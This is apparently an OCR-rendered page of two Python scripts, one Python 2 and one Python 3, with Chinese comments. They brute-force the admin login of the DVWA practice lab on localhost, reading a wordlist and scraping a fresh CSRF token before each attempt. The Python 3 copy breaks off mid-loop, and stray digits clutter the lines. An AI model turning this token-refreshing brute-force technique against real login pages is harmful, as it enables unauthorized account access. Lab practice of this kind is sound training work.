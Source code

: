 ```
from bs4 import BeautifulSoup      
import urllib2      
header={'Host':'127.0.0.1',      
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',      
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',      
        'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',      
        'Referer':'http://127.0.0.1/vulnerabilities/brute/',      
        'cookie':'PHPSESSID=6oqhn9tsrs80rbf3h4cvjutnn6; security=high',      
        'Connection':'close',      1
        'Upgrade-Insecure-Requests':'1'      1
        }      1
requrl="http://127.0.0.1/vulnerabilities/brute/"       1
def get_token(requrl,header):      1
    req=urllib2.Request(url=requrl,headers=header)      1
    response=urllib2.urlopen(req)      1
    print response.getcode(),      1
    the_page=response.read()      1
    print len(the_page)      2
    soup=BeautifulSoup(the_page,"html.parser")   #将返回的html页面解析为一个BeautifulSoup对象      2
    input=soup.form.select("input[type='hidden']")   #返回的是一个list列表      2
    user_token=input[0]['value']               #获取用户的token      2
    return user_token       2
user_token=get_token(requrl,header)      2
i=0      2
for line in open("E:\Password\mima.txt"):      2
    requrl="http://127.0.0.1/vulnerabilities/brute/?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token      2
    i=i+1      3
    print i , 'admin' ,line.strip(),      3
    user_token=get_token(requrl,header)      3
    if(i==20):      3
        break
```




python3.x代码 



```
from bs4 import BeautifulSoup      
import requests       
header={'Host':'127.0.0.1',      
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',      
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',      
        'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',      
        'Referer':'http://127.0.0.1/vulnerabilities/brute/',      
        'cookie':'PHPSESSID=8p4kb7jc1df431lo6qe249quv2; security=high',      1
        'Connection':'close',      1
        'Upgrade-Insecure-Requests':'1'      1
        }      1
requrl="http://127.0.0.1/vulnerabilities/brute/"       1
def get_token(requrl,header):      1
    response=requests.get(url=requrl,headers=header)      1
    print (response.status_code,len(response.content))      1
    soup=BeautifulSoup(response.text,"html.parser")      1
    input=soup.form.select("input[type='hidden']")   #返回的是一个list列表      2
    user_token=input[0]['value']                   #获取用户的token      2
    return user_token       2
user_token=get_token(requrl,header)      2
i=0      2
for line in open("E:\Password\mima.txt"):      2
```